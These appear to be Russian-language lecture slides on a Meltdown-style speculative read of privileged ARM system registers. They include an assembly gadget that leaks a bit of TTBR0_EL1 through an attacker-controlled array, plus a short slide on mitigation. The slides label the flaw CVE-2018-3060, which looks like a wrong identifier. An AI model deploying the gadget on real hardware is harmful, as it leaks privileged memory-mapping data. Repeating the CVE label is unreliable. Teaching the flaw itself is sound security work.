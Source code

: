 \begin{frame}{\insertsubsection}

  CVE-2018-3060: спекулятивное чтение недоступных данных

  \begin{figure}[h]
    \texttt{[image: meltdown\_logo]}
    \caption{Meltdown}
  \end{figure}

\end{frame}

\subsubsection{ASM}
\begin{frame}[fragile]{\insertsubsubsection}

  \begin{verbatim}
    LDR X1, [X2]       ; X2 - указатель на данные, которых нет в кэше,
                       ; также в TLB не должно быть данного адреса
    CBZ X1, over       ; переход, который в итоге будет совершён,
                       ; но инструкции ниже всё равно исполнятся
    MRS X3, TTBR0_EL1  ; TTBR0_EL1 - системный регистр,
                       ; недоступный для чтения пользователем
    LSL X3, X3, #imm   ; получение нужного бита данных
    AND X3, X3, #0xFC0 ; выравнивание с размером страницы памяти
    LDR X5, [X6,X3]    ; X6 - адрес массива атакующего
    over
  \end{verbatim}


\end{frame}

\subsubsection{Предотвращение}
\begin{frame}{\insertsubsubsection}

  В зависимости от уровня привилегий заменять значения системных регистров
  фиктивными


\end{frame}